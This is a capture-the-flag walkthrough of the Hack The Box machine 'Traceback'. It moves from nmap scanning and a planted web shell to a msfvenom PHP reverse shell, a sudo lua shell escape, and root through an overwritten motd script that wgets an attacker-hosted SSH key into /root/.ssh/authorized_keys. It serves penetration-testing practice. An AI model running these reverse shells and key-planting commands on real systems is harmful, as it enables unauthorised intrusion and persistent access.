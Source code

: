 As always, we start with nmap - it comes back with ports 80 and 22 open, so naturally we go check out the web page.

>Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-09 12:10 EDT  
Nmap scan report for 10.10.10.181  
Host is up (0.036s latency).  
Not shown: 65533 closed ports  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)  
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)  
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|_http-server-header: Apache/2.4.29 (Ubuntu)  
|_http-title: Help us  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

![websiteLanding](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Initially, my assumption was to jump into dirb or gobuster and try to enumerate where the mentioned backdoor might be, but that doesn't get us anything here.
Instead, hitting 'view page source' gives us this comment:

![websiteComment](https://github.com/DefinitelyNotDex/imageURLgoesHere)

If we google that phrase we get a Github page where the author is the same user who owned the site. 
Scrolling down the list of web shells, we can throw all of them into the end of the URL until one works for us.
If we also click on the Github link for that particular shell we get a set of default creds, which work nicely.

![webShell](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Wonderful, we have a web shell. This shell is fully functional and you can use it to priv-esc to the actual user with minimal issues. I didn't want to deal with it, though, so I compiled my own php shell with msfvenom, uploaded it, set up a metasploit handler to catch the connection, accessed my shell url, and used that shell going forward:

>**msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php**

Once we have this shell, time to enumerate. You can do this manually, but to save time I used the linux enumeration script found [here](https://github.com/diego-treitos/linux-smart-enumeration), using wget to download the script directly to the machine:

>**wget "https://github.com/diego-treitos/linux-smart-enumeration/raw/master/lse.sh" -O lse.sh;chmod 700 lse.sh**

Running that script shows us that we have a command we're allowed to run as sudo, /home/sysadmin/luvit. If we also take a look at our home directory we have a file called note.txt which explains the sysadmin left us a way to mess around with lua, which is presumably that file. We can run the file with the following command:

>**sudo -u sysadmin /home/sysadmin/luvit**

Running it, however, gets us an error. Specifically, we get a *traceback* error that the script tries to call a method that doesn't exist. Going by the name of the machine, we're on the right track.

![luvitError](https://github.com/DefinitelyNotDex/imageURLgoesHere)

Combing that output from the traceback might not give you much at first glance, but when I tried to throw the output of running luvit into a text file I noticed the error message was not included. What was included at the end of the file was a carrot character, which indicated to me that this might be the lua interpreter, similar to the python interpreter. Therefore, we might be able to pass it a command or script, which ended up working. I used [this](https://justhack.in/shell-escapes-cheatsheet) link to grab a very easy shell escape script, which I uploaded to the host, appended with the same luvit command, and ran:

>**sudo -u sysadmin /host/sysadmin/luvit shell.lua**

This got me a functional bash shell for the sysadmin user, but it was still coming through the webadmin user's meterpreter shell, which was a pain. I generated a second shell, this time just a standard linux reverse tcp meterpreter shell, uploaded it, created a new handler to catch the shell, and ran it as the sysadmin user to get a sysadmin meterpreter shell.

Now we have an actual user shell and can grab the user flag. 
Running the same linux enumeration script we used above shows that we can access and *write* to the /etc/.update-motd.d/ files, which are bash scripts that generate the welcome message when someone ssh's into the server. There is a script on this box that constantly overwrites them with the defaults, so we'll have to be fast when we use those to priv esc to root. To do so, we'll have to modify them, then immediately ssh into this host in order for the .update-motd.d script to run. 

Going back to the initial webadmin shell, we are able to navigate to /home/webadmin/.ssh and edit the authorized_keys file, which is the file that stores the public ssh key. We can then ssh back to the host as webadmin using the corresponding private key.

To do this, I used ssh-keygen to create the key pair on my local kali machine, dropped the public key into /home/webadmin/.ssh, and copied its contents into the authorized_keys file. Once that was done, I tested that I was able to ssh to the host as webadmin, and we're ready to exploit the .update-motd.d scropt. 

Since the etc/.upload-motd.d files are quickly overwritten (they're maybe there for 5-15 seconds before going back to the original set) I couldn't upload a reverse shell, as it would die rather quickly. What we can do as root, though, is add another set of ssh keys so we can just ssh to the box as root. To do so, we need to replace the motd file and ssh into the box as webadmin to execute the script before it is overwritten. Multiple shell windows queued and ready to go helps here. I hosted the directory with the ssh keys using python's SimpleHTTPServer, and grabbed them with the bash script that we replaced the motd header with:

Local machine (from the directory with the bash script '00-header' inside):
>**python -m SimpleHTTPServer 80**

Bash script:

>#!/bin/sh  
**wget http://10.10.14.4/root-key-rsa.pub -P /root/.ssh**  
**cat /root/.ssh/root-key-rsa.pub > /root/.ssh/authorized_keys**  

Sysadmin shell:

>**meterpreter>upload 00-header /etc/.update-motd.d/00-header**  
>**meterpreter> cat 00-header**

(that cat is to confirm 00-header is the correct file and hasn't been immediately overwritten)

Local machine (separate shell window)

>**ssh -i ./webadmin-rsa-key webadmin@10.10.10.181**

As long as the sysadmin shell command and the ssh command were done closely enough together and in sequence, the root ssh key overwrite works well. Now we can just ssh back to the host as root using that new ssh key, grab the root flag, and finish this box off entirely

>**ssh -i ./root-key-rsa root@10.10.10.181**
